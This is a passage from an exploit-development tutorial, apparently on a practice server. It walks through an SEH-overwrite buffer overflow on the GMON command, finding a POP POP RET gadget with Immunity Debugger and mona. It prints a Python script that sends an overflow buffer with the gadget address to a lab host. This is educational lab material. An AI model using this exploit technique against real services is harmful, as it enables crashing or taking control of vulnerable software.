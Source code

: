 



Perfect, we have a `POP EBX` `POP EBP` and `RETN` instruction. This is exactly what we need `POP POP RET`



For this part, I recommened you place a breakpoint at the start of your `POP POP RET` function so you can step-through the next part to understand what happens, you can this by simply double-clicking your selected module in **mona** followed by pressing `F2` on the `POP EBX` instruction. 



Now I will amend my python script to overwrite the `seh` variable with the value of my `POP POP RET` instruction just like below.



```python
#!/usr/bin/python
import socket
import sys


nseh = "B"*4
seh = "\xb4\x10\x50\x62" #0x625010b4 pop,pop,ret



buffer = "A" * 3515
print "[*] Starting to Fuzz GMON with %s bytes" %len(buffer) + " A's"
buffer += nseh #BBBB
buffer += seh #CCCC
junk = "D"*(5000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space

print "[*] Starting to Fuzz GMON with everything containing %s bytes" %len(buffer)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',9999))
print "[*] Connected to bof.local on Port 9999"
s.send(('GMON /.:/' + buffer))
s.close()
print "[*] Finished Fuzzing GMON with %s bytes" %len(buffer)
```



Let's run this script and jump over to **Immunity** again and see what has happened.



Before we check out the stack or memory dump let's quickly check the **SEH Chain**




<p align = "center">
<img src = "https://i.imgur.com/VPMMmtu.png">
</p>
